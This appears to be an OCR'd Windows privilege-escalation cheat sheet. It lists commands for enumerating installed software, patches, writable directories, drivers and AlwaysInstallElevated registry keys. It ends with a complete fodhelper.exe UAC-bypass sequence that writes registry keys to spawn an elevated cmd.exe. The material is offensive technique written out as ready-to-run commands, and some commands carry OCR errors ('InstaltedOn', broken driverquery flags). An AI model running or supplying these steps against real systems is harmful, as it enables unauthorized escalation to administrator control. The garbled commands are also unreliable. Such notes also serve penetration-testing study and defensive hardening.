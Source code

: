 * Enumerating Installed Applications and Patch Levels

```
// Does not list applications that do not use the Windows Installer
wmic product get name, version, vendor

wmic qfe get Caption, Description, HotFixID, InstaltedOn
```

* Enumerating Readable/Writable Files and Directories

```
accesschk.exe -uws "Everyone" "C:\Program Files"

// powershell cmdlet
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

* Enumerating Unmounted Disks

```
mountvol
```

* Enumerating Device Drivers

```
// list drivers, use powershell to filter output
driverquery.exe / v / fo csv | Convertfrom-CSV | Select-Object 'Display Name', ' Start Mode', 'Path'

// Get driver version and other details 
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

* Enumerating Binaries That AutoElevate

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

// If any of this key is enabled (set to 1), we could craft an MSI file and run it to elevate our privileges.
```

* Elevating Medium to High integrity shell using fodhelper.exe (admin required)

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
C:\Windows\System32\fodhelper.exe
```

* Checking file permissions
